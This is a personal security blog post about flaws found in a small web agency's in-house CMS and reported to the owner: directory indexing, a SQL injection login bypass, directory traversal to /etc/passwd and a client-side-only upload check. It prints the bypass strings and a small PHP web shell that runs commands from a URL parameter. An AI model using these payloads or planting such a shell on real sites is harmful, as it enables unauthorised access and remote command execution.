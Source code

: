 ```yaml
---
layout: post
title:  "A Web Agency's Vulnerable Website"
date:   2016-01-23 00:00:00
description: One Fine Evening's Pastime
tags: Security
---
```


This article covers a company profile website. The company is owned by a friend of mine. He runs a web agency, offering his clients custom applications based on a CMS they developed. All of the things mentioned in this article has been reported to the agency to be fixed.

It should be noted not every version of their CMS is vulnerable. A later version of their CMS used in a SaaS business run by the same company is not vulnerable to the SQL injection on the admin login form and directory indexing.

#### How It Began

The story started in early November 2015. I found that [directory indexing](https://www.owasp.org/index.php/OWASP_Periodic_Table_of_Vulnerabilities_-_Directory_Indexing) was enabled on his web agency's company profile website. After looking at the files I could see, I found out the website's admin login page and the structure of their company's CMS.

Knowing that he's running another business, I tried checking out his other business' website. Directory indexing was not enabled in this site, but I found out that they're using the same CMS engine.

I notified him for the directory indexing on his web agency (we'll call it Alpha Web Agency), and told him that directory indexing leaked some information about the structure for his SaaS business' website (we'll call it Beta Online Services). It was fixed after a few days.

That's how I gain a little knowledge on their CMS structure, and how I could perform the next steps specifically on the admin panel.

#### Two Months Later

On a Saturday evening, I decided to come back to Alpha Web Agency's website. I didn't really expect to find anything there, I just want to kill some time while waiting for a software installation to finish.

I checked once again to make sure that directory indexing is not enabled on the site. After that, I went straight to the admin login form, as I already know the exact path.

I tried to use this login credentials on the login form.

~~~
Username: '
Password: '
~~~

The application gave me an unexpected response.

![Login Response](/images/posts/alpha-web-agency-01.png)

The login form is vulnerable to SQL injection. I didn't try it when I went to Alpha Web Agency's site in November 2015. I tried to bypass the authentication sequence.

~~~
Username: ' OR 1=1--
Password: ' OR 1=1--
~~~

I still got the same response as before. So I tried another one.

~~~
Username: ' OR 1=1#
Password: ' OR 1=1#
~~~

And the admin panel is served.

![Admin Panel](/images/posts/alpha-web-agency-02.png)

The navigation in the admin panel seems to be vulnerable to directory traversal, and I tried to insert the path to `/etc/passwd` file as the parameter value.

![Directory Traversal](/images/posts/alpha-web-agency-03.png)

The admin can upload images in several menu functions. The image files should be limited to `jpg`, `gif`, and `png` files. But it's only validated with JavaScript, disabling the form submission button to be clicked when the script detected invalid file extension.

We can always disable JavaScript on modern browsers, and I successfully uploaded a PHP file.

![Upload Validation Bypass](/images/posts/alpha-web-agency-04.png)

This is the file I uploaded.

~~~php
<?php
echo '<pre>';
echo shell_exec($_GET['cmd']);
echo '</pre>';
?>
~~~

The PHP configuration on the server prevents the `shell_exec` from running, but it should be possible to do other things with an uploaded PHP file.

Beta Online Services' website is not vulnerable to SQL injection on the login form. But it's possible that it also suffers from the directory traversal vulnerability and missing upload validation on the backend. Beta Online Services is started a few years after Alpha Web Agency, therefore I assume that it's using a newer version of the CMS. Hence, some of the vulnerabilities has been fixed for Beta Online Services' website.

#### Conclusion

The report regarding the existing vulnerabilities has been sent to Alpha Web Agency, and they should be on the process of patching it. But maybe we need to have some talk about how the vulnerabilities could exist.

It's a small company run mainly by the owner. The owner started out freelancing by himself, and after a while he started to build components for future projects. He ended up developing a CMS and templates for projects. After a while, he hired a few people to help with the projects and the company is formed.

The CMS and templates might be built with project timeline in mind, and focused mainly just to have the functions running. The company is a very small company with only around five workers including the owner himself. Their hands being full with keeping up with the clients' requests in tight deadlines might be one reason that they didn't have much time to review the security of their system. Not to mention that they also need manpower to keep Beta Online Services running.

To prevent similar problems from appearing in the future, the company might need to spare some time reviewing their code, examining their server configurations, and testing their system's security. Maybe some more manpower will help, especially security-aware web developers and administrators.